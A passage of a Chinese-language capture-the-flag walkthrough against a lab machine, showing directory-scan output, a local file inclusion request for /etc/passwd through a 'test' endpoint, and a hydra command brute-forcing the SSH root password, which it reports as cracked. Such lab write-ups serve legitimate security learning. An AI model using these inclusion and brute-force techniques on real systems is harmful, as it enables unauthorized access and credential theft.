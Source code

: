 ```
==> DIRECTORY: http://192.168.149.132/images/                                                            
+ http://192.168.149.132/in (CODE:200|SIZE:47559)                                                        
+ http://192.168.149.132/index (CODE:200|SIZE:3267)                                                      
+ http://192.168.149.132/index.php (CODE:200|SIZE:3267)                                                  
+ http://192.168.149.132/panel (CODE:302|SIZE:2469)                                                      
+ http://192.168.149.132/server-status (CODE:403|SIZE:296)                                               
+ http://192.168.149.132/show (CODE:200|SIZE:1)                                                          
+ http://192.168.149.132/test (CODE:200|SIZE:72)                                                         
                                                                                                         
---- Entering directory: http://192.168.149.132/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Sun Mar  3 18:03:38 2019
DOWNLOADED: 4612 - FOUND: 11
```

当访问到test文件时，系统提示：

```
'file' parameter is empty. Please provide file path in 'file' parameter 
```

### 文件包含：

那么可以得出test文件内有一个文件包含函数，那么这里很有可能有个文件包含漏洞

原先构造URL为：

```
http://192.168.149.132/test?file=/etc/passwd
```

发现没有反应，那么可能需要构造post类型数据包

![](http://ww1.sinaimg.cn/large/0078beR7ly1g0prz1d94sj30mz0jfjs5.jpg)

由passwd我们可以得出当时可以登录的账号为root和ica用户

我们可以使用hydra进行爆破试试

```
hydra -l root -P /root/dict/1433-pass.txt -T 6 192.168.149.132 ssh
```

当然hydra是可以爆破成功的，只要字典强大，爆出root密码为roottoor。这个等会用。
